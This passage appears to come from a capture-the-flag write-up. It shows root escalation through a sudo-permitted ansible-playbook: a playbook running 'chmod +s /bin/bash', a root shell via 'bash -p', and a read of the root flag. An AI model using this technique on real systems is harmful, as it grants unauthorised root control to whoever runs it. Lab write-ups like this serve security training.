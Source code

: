 First we create a yaml config which gives bash the suid bit on the target machine.

`sm.yml`
```yml
---
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```

Then we run `ansible-playbook` on the file with sudo.

```php
bash-5.0$ sudo /usr/bin/ansible-playbook ./sm.yml
...[snip]...
PLAY RECAP *********************************************************************************************************************************************************************************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0

```

Checking bash again we see that it has now the suid bit set.

```php
-bash-5.0$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Which means we can simply drop in a rootshell and read the flag.

```php
-bash-5.0$ /bin/bash -p
bash-5.0# id
uid=1000(luis) gid=1000(luis) euid=0(root) egid=0(root) groups=0(root),1000(luis)
bash-5.0# wc -c /root/root.txt
```

